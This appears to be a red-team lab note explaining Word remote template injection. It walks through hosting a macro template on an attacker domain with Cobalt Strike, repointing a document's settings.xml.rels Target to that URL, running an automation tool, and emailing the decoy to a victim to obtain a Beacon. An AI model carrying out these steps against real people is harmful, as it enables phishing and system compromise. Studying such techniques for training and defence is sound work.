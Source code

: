 ```yaml
---
description: 09/02/2025
---
```


# ✅ Remote Template Injection

## What is it?

**Microsoft Word includes a feature** that allows users to create documents linked to **templates**. _<mark style="color:red;">These templates can be stored locally or retrieved from a remote server whenever the document is accessed</mark>_.

Exploiting this functionality, attackers can host malicious Word Template files (`.dotm`) on their servers, embedding harmful macros within them. When a victim opens a Word document, it automatically fetches the malicious template from the attacker's server and executes the embedded code, potentially compromising the victim's system.&#x20;

The key benefit of this technique is that the decoy Word document reaching the victim's system appears harmless.&#x20;

This technique is known as _**Living off the Land**_ (**LotL**).&#x20;

## Creating a Malicious Word Template

1. Open Microsoft Word
2. Create a new blank document and insert a desired macro
3. Save to `C:\Payloads` along with the rest of your payloads as a _**Word 97-2003 Template**_ (`*.dot`) file
4. This will now serve as our "malicious remote template"
5. Use Cobalt Strike to host this file at your attacker-controlled domain, in this case, `http://nickelviper.com/template.dot`
6. Now create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Template`, adding any content you want, then save to `C:\Payloads` as a new `.docx` file.&#x20;
7. Browse to the directory in file explorer, right-click, and select `7-zip` > Open archive
8. Navigate to Word -> \_rels, right-click on `settings.xml.rels` and select **Edit**.&#x20;
9. This is just a small little `XML` file. Scroll until you see the `Target` entry:

```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```

10. You're going to notice that it is currently pointing to the template on our local disk from which the document was created. Simply modify this so that it points to the template URL instead:

```
Target="http://nickelviper.com/template.dot"
```

11. Save those changes and email the document to Bob.
12. Once the file is opened, you'll see a warning about macros again, but allowing them to run will execute the macro in the hosted template, giving us a Beacon.

## Automation?

Check out this [Python tool](https://github.com/JohnWoodman/remoteinjector) that automates this process so that we do not have to modify the XML manually.

```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```

## Observing Web Log Beacon Activity&#x20;

Inside of Cobalt Strike, you can go to _**View -> Web Log**_, and from there you can view any/all activity of your malicious templates.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
